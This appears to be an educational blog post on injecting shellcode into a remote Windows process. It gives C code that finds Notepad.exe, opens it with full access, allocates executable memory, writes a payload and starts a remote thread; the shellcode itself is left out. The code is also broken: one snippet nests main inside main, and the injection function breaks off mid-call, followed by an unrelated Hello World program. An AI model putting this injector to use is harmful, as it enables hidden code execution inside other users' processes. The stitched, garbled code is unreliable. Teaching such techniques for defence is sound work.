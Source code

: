 ```yaml
---
layout: post
title:  "Process Injection - 01"
---
```


## Injecting shellcode into a remote process.

### Introduction

Process injection, a technique utilized in both legitimate applications and malicious software, involves manipulating the memory space of a running process. This blog delves into the intricacies of remote process injection, utilizing a simple C program for educational purposes. It's important to note that the provided code lacks evasion techniques and is intended solely for educational exploration.

### Overview of Process Injection

Process injection serves as a potent method for executing code in the address space of another process. This allows for various functionalities, including code injection, DLL injection, and reflective DLL injection. In our exploration, we'll focus on remote process injection, where the injection process is initiated from an external program. In our example, the program does not incorporate evasion techniques and maintains a straightforward structure. This approach allows for a clearer understanding of the core concepts without introducing complexities related to evasion.

### Utilized functions from the Windows APIs

The success of remote process injection hinges on leveraging specific Win32API functions. These functions play pivotal roles in tasks such as process identification, memory allocation in the remote process, and thread creation. Here are key Win32API functions employed in the provided C code:

- `CreateToolhelp32Snapshot`: Captures a snapshot of all processes currently running in the system.
- `Process32First` and `Process32Next`: Retrieve information about the first and subsequent processes in the snapshot.
- `OpenProcess`: Opens an existing process, providing various access rights.
- `VirtualAllocEx`: Allocates memory in the address space of the specified process.
- `WriteProcessMemory`: Writes data to the memory of the specified process.
- `CreateRemoteThread`: Creates a thread running in the address space of the specified process.

### Flow of the Program (key steps)

1. **Process Identification:** Identify the process ID of "Notepad.exe" or any process ID of your choice using `FindProcessId`.
2. **Open the Process:** If the process ID is obtained, open the process with full access rights using `OpenProcess`.
3. **Payload Injection:** If the process is successfully opened, inject the payload into the target process via the `injectPayload` function.
4. **Execution:** The injected payload, represented by the shellcode, is executed within the context of the target process.

### Understanding the code

1. **Payload definition:** The `payload` variable encapsulates a block of machine code, acting as the payload intended for injection. This payload, in our example, is designed to open a calculator.

    ```c
    unsigned char payload[] = {
      // ... (payload content)
    };
    unsigned int payload_len = sizeof(payload);
    ```

2. **Process Identification:** (Identify the Process ID of "Notepad.exe" using `FindProcessId`)

    In this step, the program uses the `FindProcessId` function to determine the Process ID (PID) of the target process, which, in this example, is "Notepad.exe." The `FindProcessId` function takes the name of the target process as a parameter and iterates through the list of running processes to find a match. Here, the function uses the Windows API functions `CreateToolhelp32Snapshot` and `Process32First/Process32Next` to iterate through the list of processes, comparing each process name with the provided target name ("Notepad.exe"). When a match is found, the corresponding Process ID is returned.

    ```c
    int FindProcessId(const char *FprocessName) {
      HANDLE hProcessSnapshot;
      PROCESSENTRY32 pe32;
      DWORD pid = 0;

      hProcessSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

      if (hProcessSnapshot == INVALID_HANDLE_VALUE) {
        // Error handling
        return 0;
      }

      pe32.dwSize = sizeof(PROCESSENTRY32);
      if (!Process32First(hProcessSnapshot, &pe32)) {
        // Error handling
        CloseHandle(hProcessSnapshot);
        return 0;
      }

      while (Process32Next(hProcessSnapshot, &pe32)) {
        if (_stricmp(FprocessName, pe32.szExeFile) == 0) {
          pid = pe32.th32ProcessID;
          break;
        }
      }

      CloseHandle(hProcessSnapshot);
      return pid;
    }
    ```

3. **Open the Process:** (If the Process ID is obtained, open the process with full access rights using `OpenProcess`)

    Once the Process ID is identified, the program uses the `OpenProcess` function to open the target process. This function returns a handle to the specified process, allowing subsequent operations on that process. In this snippet, the `OpenProcess` function is called with the identified Process ID and the desired access rights (`PROCESS_ALL_ACCESS`). If the function succeeds, it returns a handle (`hProcess`) to the opened process, signifying that subsequent operations can be performed on this process.

    ```c
    int main(void) {
      // ... (main function initialization)
      int main(void) {
        int process_Id = 0;
        HANDLE hProcess = NULL;

        process_Id = FindProcessId("Notepad.exe");

        if (process_Id) {
            printf("Notepad process id is: %d", process_Id);

            hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, process_Id);
            if (hProcess != NULL) {
                // Code to inject payload
            }
        }

        return 0;
    }
    ```

4. **Remote Process Injection:** If the process is successfully opened, inject the payload into the target process via the `injectPayload` function. Following the successful opening of the target process, the program proceeds to inject the payload. This involves allocating memory within the address space of the target process using `VirtualAllocEx` and writing the payload into that allocated memory with `WriteProcessMemory`. Here, the `injectPayload` function is called with the opened process handle (`hProcess`) and the payload information. The `injectPayload` function, which was defined earlier, handles the memory allocation and payload injection.

    <pre>
    // Function to inject payload into the target process
    int injectPayload(HANDLE ihProcess, unsigned char *iPayload, int iPayload_len) {
        // Allocate memory in the remote process
        LPVOID rmem = VirtualAllocEx(ihProcess, NULL, iPayload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

        if (rmem == NULL) {
            // Error handling
            return -1;
        }

        // Write the payload into the allocated memory
        if (!WriteProcessMemory(ihProcess, rmem, (PVOID)iPayload, iPayload_len, NULL)) {
            // Error handling
            VirtualFreeEx(ihProcess, rmem, 0, MEM_RELEASE);
            return -1;
        }

        // Create a remote thread to execute the injected payload
        HANDLE cremoteThread = CreateRemoteThread(ihProcess, NULL, 0, (LPTHREAD_START_ROUTINE)rmem, NULL, 0, NULL);

        if (cremoteThread == NULL) {
            // Error handling
            VirtualFreeEx(ihProcess, rmem
            </pre>


        ```c
#include <stdio.h>

int main() {
printf("Hello, World!\n");
return 0;
}
```

<pre>
```bash
$ gcc -o my_program my_program.c
$ ./my_program
Hello, World!
```
</pre>
